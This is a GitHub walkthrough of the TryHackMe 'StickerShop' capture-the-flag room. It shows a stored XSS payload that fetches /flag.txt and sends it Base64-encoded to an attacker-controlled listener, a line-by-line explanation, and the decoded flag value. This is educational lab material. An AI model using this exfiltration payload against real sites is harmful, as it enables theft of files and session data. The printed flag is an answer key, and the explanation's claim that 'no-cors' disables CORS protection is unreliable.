



# StickerShop CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **StickerShop** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/thestickershop). 
---
We know that flag is located in `http://SITE_IP:8080/flag.txt`



Strting python server

```
python3 -m http.server 80
```
Testing the form for XSS with simple code in JS

```javascript
<script src="http://MY_MACHINE_IP:80/test"></script>
```

We captured response



Modifying the script to obtain `flag.txt`

```JavaScript
<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://MY_MACHINE_IP:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>

```
---
CODE EXPLENATION

This JavaScript code is an example of data exfiltration, meaning unauthorized theft of information from a server. Here’s how it works:

`fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})`  
Fetches the content of `/flag.txt` from the server.

- `method: 'GET'` means it's a request to retrieve data.

- `mode: 'no-cors'` disables standard Cross-Origin Resource Sharing (CORS) protection, making it harder to detect the attack.

- `credentials: 'same-origin'` ensures that cookies and authentication credentials (like session tokens) are sent along with the request.

`.then(response => response.text())` Waits for the server’s response and converts it into text.

`.then(text => { fetch('http://MY_MACHINE_IP:80/' + btoa(text), {mode:'no-cors'}); });`

- Once the `/flag.txt` content is retrieved, it is Base64 encoded `(btoa(text))`.

- Then, the encoded data is sent to an external server `(http://MY_MACHINE_IP:80/)`, controlled by the attacker.

- `mode: 'no-cors'` prevents the browser from blocking the request.

END OF CODE EXPLENATION
---



Now we need to decode this weird string `VEhNezgzNzg5YTY5MDc0ZjYzNmY2NGEzODg3OWNmY2FiZThiNjIzMDVlZTZ9` from base64

The flag is: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

# FLAG OBTAINED
